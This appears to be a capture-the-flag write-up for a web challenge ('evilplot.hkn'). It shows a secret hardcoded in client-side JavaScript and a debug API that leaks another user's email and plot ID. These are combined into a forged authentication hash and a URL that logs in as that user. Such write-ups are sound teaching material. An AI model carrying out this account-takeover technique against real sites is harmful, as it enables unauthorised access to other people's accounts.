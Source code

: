 <http://evilplot.hkn/create-parking?user=asd@asd.asd&pId=7&auth=b741531720738198c9aecea0805d4af917cb88741743503c3c25eaab10ace2d3>

From source we can find <http://evilplot.hkn/static/utils.js>

```js
const CONFIG = {
  maxRetries: 5,
  enableLogs: false,
  debugMode: false,
  theme: "dark",
  SECRET: "th1sIsN0tTh3S3cretUreL00k1ngF0r",
  fallbackPlotId: 99,
  hashVersion: "v2.1-beta",
  useLegacyHash: true,
};

async function sha256(message) {
  const msgBuffer = new TextEncoder().encode(message);
  const hashBuffer = await crypto.subtle.digest("SHA-256", msgBuffer);
  const hashArray = Array.from(new Uint8Array(hashBuffer));
  const hashHex = hashArray
    .map((b) => b.toString(16).padStart(2, "0"))
    .join("");
  return hashHex;
}

async function generateAuthHash(email, pId) {
  // This hash combines the users email, plot id and secret to create a hash
  return await sha256(email + pId + CONFIG.SECRET);
}
```

So we just need to find the parking ID and email of any other user and we can authenticate as them.

``/robots.txt`` lead to ``/apidocs``. ``/apidocs`` shows ``/api/debug/user`` where if we input the ID ``1`` we get info on the user ``Bente``:
```json
{
  "email": "bente@mail.dk",
  "plot_id": 6
}
```

Now we need the SHA256 hash of the following
```
bente@mail.dk6th1sIsN0tTh3S3cretUreL00k1ngF0r
```

Which is:
```
b7e51bbb14c0b38ae395026a11e5cc515574c6363ff59a29bd6acc051a413e6e
```

We can then modify the URL to login as Bente:
<http://evilplot.hkn/create-parking?user=bente@mail.dk&pId=6&auth=b7e51bbb14c0b38ae395026a11e5cc515574c6363ff59a29bd6acc051a413e6e>

